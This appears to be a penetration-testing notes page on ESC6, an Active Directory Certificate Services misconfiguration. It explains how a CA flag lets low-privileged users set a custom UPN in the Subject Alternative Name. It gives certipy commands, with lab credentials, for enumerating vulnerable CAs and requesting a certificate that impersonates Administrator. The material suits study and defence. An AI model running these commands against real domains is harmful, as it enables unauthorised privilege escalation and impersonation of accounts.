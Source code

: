 ```yaml
---
description: ESC | Active Directory Certificate Services
---
```


# ESC6

The Certificate Authority can be vulnerable if a specific flag, `EDITF_ATTRIBUTESUBJECTALTNAME2`. This was patched in May 2022. A security concern in how **Smart Card Logon** is implemented in on-premise Active Directory environments that revolves around the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag in Certificate Authorities (CA).

If this flag is enabled, it allows users to define custom values in the **Subject Alternative Name (SAN)** field of a certificate. This means:

* Even low-privileged users can request a certificate (e.g., via the default "User" template) with **Client Authentication** EKU (1.3.6.1.5.5.7.3.2).
* The certificate can include a custom **User Principal Name (UPN)**, allowing an attacker to impersonate any user, including privileged accounts.

This misconfiguration can lead to privilege escalation.

```bash
# Enumeration
certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# Result
    [!] Vulnerabilities
      ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
```

#### Abuse from Linux

```bash
# Request certificate with alternate UPN
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template User -upn Administrator@lab.local
```
